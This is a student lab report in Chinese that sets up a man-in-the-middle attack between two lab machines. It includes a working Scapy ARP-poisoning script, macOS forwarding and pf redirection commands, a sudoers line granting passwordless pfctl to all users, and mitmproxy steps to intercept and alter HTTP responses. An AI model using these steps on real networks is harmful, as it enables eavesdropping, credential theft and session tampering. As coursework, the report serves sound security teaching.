





# 网络安全工程 实验2：中间人攻击

## 实验要求

在攻击机上利用Scapy伪造数据包，对另外两台靶机进行ARP欺骗，实现窃听靶机之间的会话，在实现ARP欺骗的基础上，进一步实现中间人攻击。利用iptables 修改流量的转发端口，使用mitmproxy进行拦截请求，可以获取到请求的参数，从中提取出重要的信息，比如用户名和密码，也能够修改响应，改变返回的内容。mitmproxy 提供了inline script 方法，能够使用脚本来操作流量，使得mitmproxy 的功能更加强大，当然也可以尝试拦截https的流量，mitmproxy 也具有这样的能力。

- 要求1：使用Scapy实现窃听另外两台靶机的会话。例如窃听并提取另外两台靶机之间FTP或者HTTP会话的登录账号。
- 要求2：对另外两台靶机进行中间人攻击，实现对会话进行篡改。例如对靶机间的HTTP会话进行注入，修改HTTP响应。

## 实验环境

- 网络环境：利用路由器的自组无线局域网，子网网段192.168.1.0/24
- 攻击者 Attacker：
    - OS: MacOS 10.14
- 服务器 Server：
    - OS: MacOS 10.13
    - IP: 192.168.1.107
- 客户机 Victim：
    - OS: Windows 10
    - IP: 192.168.1.104
- **注意**：由于使用物理机环境而非kali虚拟机，因此部分操作与实验指示书有所不同

## 实验步骤

### 要求1

1. 首先将三台主机连入子网，为server配置http服务：

    ```bash
        $ python3 -m http.server 80
    ```

2. 随后用客户机victim通过浏览器访问服务器ip地址，可以得到 http response 如下：

    

3. 在攻击者上编写arp poison脚本，原理是利用Scapy分别向server和victim不断发送被修改过的ARP包，从而在二者的ARP缓存中投毒，将两者对于对方的ARP缓存均更改为attacker的MAC地址。脚本详见`src/arp_poison.py`，主要内容如下：

    ```py
        server_ip = "192.168.1.107"
        victim_ip = "192.168.1.104"
    
        # 获取目标ip的MAC地址
        def get_mac(ip_address):
            ans, unans = srp(Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(pdst=ip_address), timeout=2, retry=10)
            for s, r in ans:
                return r[Ether].src
            return None
    
        # 分别获取二者的MAC
        victim_mac = get_mac(victim_ip)
        server_mac = get_mac(server_ip)
    
        # 构造ARP包
        # 发给server的包中，源ip为victim，但源mac为attacker
        # 发给victim的包类似
        poison_server = ARP()
        poison_server.op = 2
        poison_server.psrc = victim_ip
        poison_server.pdst = server_ip
        poison_server.hwdst = server_mac
    
        poison_victim = ARP()
        poison_victim.op = 2
        poison_victim.psrc = server_ip
        poison_victim.pdst = victim_ip
        poison_victim.hwdst = victim_mac
    
        # 循环发送，保证占有ARP缓存
        while True:
            send(poison_server)
            send(poison_victim)
            time.sleep(2)
            print("Poisoning...")
    ```

4. 执行上面的脚本，开始ARP投毒

    ```bash
        $ python arp_poison.py
    ```

5. 为了使用mitmproxy，attacker需要开启转发，流程参考 [mitmproxy docs](https://docs.mitmproxy.org/stable/howto-transparent/#macos)，具体操作如下：

    ```bash
        $ sudo sysctl -w net.inet.ip.forwarding=1
        $ echo "rdr on en0 inet proto tcp to any port {80, 443} -> 127.0.0.1 port 8080" > pf.conf
        $ sudo pfctl -f pf.conf
        $ sudo pfctl -e
    ```
    随后修改`/etc/sudoers`，在文件末尾添加如下内容：
    ```
        ALL ALL=NOPASSWD: /sbin/pfctl -s state
    ```

6. 开启`mitmproxy`进行流量监听：
    ```bash
        $ mitmproxy --mode transparent
    ```

7. 此后，victim再向server发送请求时，attacker都会监听到HTTP会话，如，victim再次通过浏览器访问server时，attacker可以监控到相应的GET和Response：
    

### 要求2

1. attacker在`mitmproxy`中开启对server (192.168.1.107) 的流量拦截：
    
2. victim再次发送GET请求时，Response将被截获：
    
3. 这时attacker即可对包进行编辑，从而达到篡改会话的目的，如这里我们进行HTTP会话注入，修改回复内容：
    - 原始内容：
        

    - 修改内容：
        
4. attacker完成修改后，即可按`a`放行，victim将收到被篡改过的回复：
    

## 分工情况
